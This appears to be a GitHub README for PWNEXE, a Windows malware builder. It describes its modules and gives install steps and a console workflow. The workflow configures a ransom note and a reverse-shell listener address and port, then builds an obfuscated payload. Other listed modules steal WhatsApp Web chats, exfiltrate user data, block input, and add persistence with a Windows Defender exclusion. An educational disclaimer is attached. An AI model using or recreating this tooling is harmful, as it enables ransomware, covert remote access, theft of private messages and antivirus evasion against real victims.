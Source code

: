 ## What's New

### VERSION 0.1.1
- **New Module: `daemon/chatwipe`** - WhatsApp chat extractor that automatically extracts the first 8 chats from a user's WhatsApp Web session in Google Chrome
- **Features:**
  - Automatically detects Chrome installation and WhatsApp Web login
  - Extracts both incoming and outgoing messages with timestamps

---

## Overview
**PWNEXE** is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. PWNEXE is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

---

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- **In-Memory Execution:** Optional Rust loader for stealthy, in-memory payload delivery.
- **Obfuscation Support:** Optional payload obfuscation via LLVM and Rust.
- **Cross-Platform Build:** Uses Go and Rust for robust Windows payloads.
- **Fast Build Pipeline:** Output is saved to the `.LOOT` directory.

---

## Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/sarwaaaar/PWNEXE.git
   cd PWNEXE
   ```
2. **Install Python 3.8+**
   ```bash
   python3 --version
   ```
3. **Install system dependencies:**
   - Go (for module compilation)
   - Rust (for in-memory loader)
   - **Docker** (required for payload obfuscation)
     - Pull the required Docker image for obfuscation:
       ```bash
       docker pull ghcr.io/joaovarelas/obfuscator-llvm-16.0:latest
       ```
     - This image is used to obfuscate Rust payloads using LLVM during the build process.
   - On macOS:
     ```bash
     brew install go rust
     ```
   - On Linux:
     ```bash
     sudo apt install golang rustc cargo
     ```

---

## Usage

Start the tool:
```bash
python3 main.py
```

### Command Reference

- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [PWNEXE Wiki](https://github.com/sarwaaaar/PWNEXE/wiki).**

### Example Workflow
```
> show modules
> use daemon/bartmoss
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use daemon/spider
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

---

## Available Modules

| Module                   | Description                                                        |
|--------------------------|--------------------------------------------------------------------|
| daemon/filedaemon        | Normal C2 server to receive data                                   |
| daemon/spider            | Metasploit C2 server (reverse shell/payload delivery)              |
| daemon/bartmoss          | Ransomware builder                                                 |
| daemon/chatwipe          | WhatsApp chat extractor   |
| interfaceplug/blackout   | Screen blackout utility                                            |
| interfaceplug/suicide    | Block input (DoS)                                                  |
| quickhack/ping           | Sends back user info to the C2 server                              |
| quickhack/icepick        | Adds EXE to persistence and adds exclusion to Windows Defender      |

---

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

---

## Legal Disclaimer

PWNEXE is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

---

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

---

## License

MIT License. See the `LICENSE` file for details.
